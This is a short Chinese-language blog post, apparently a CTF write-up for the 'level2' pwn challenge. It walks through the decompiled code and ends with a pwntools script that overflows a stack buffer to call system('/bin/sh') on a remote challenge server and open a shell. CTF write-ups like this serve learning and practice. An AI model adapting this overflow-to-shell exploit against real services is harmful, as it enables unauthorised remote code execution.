 ```yaml
---
layout: post
title:  level2
date:   2020-08-19 00:01:01 +0300
image:  2020-08-19-woman.jpg
tags:   [ctf,pwn,攻防世界]
---
```


先运行一波

![]({{site.baseurl}}/img/2020-08-19-run.jpg)

ida打开文件，进入主函数，查看代码

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  system("echo 'Hello World!'");
  return 0;
}
```

要求我们输入的函数应该是vulnerable_function(),进入函数查看代码

```assembly
ssize_t vulnerable_function()
{
  char buf; // [esp+0h] [ebp-88h]

  system("echo Input:");
  return read(0, &buf, 0x100u);
}
```

查找字符串发现没有system("/bin/sh")函数，只有"/bin/sh"字符串

所以可以进入到system函数之后，构造system函数的栈帧，system里面的参数的地址写"/bin/sh"的地址

exp

```assembly
from pwn import *

io = remote("220.249.52.133",37826)
payload = "A"*(0x88 + 4) + p32(0x08048320) + p32(0xdeadbeef) + p32(0x0804A024)
#io.sendlineafter("Input:\n", payload)
io.sendline(payload)
io.interactive()

```

![]({{site.baseurl}}/img/2020-08-19-result.jpg)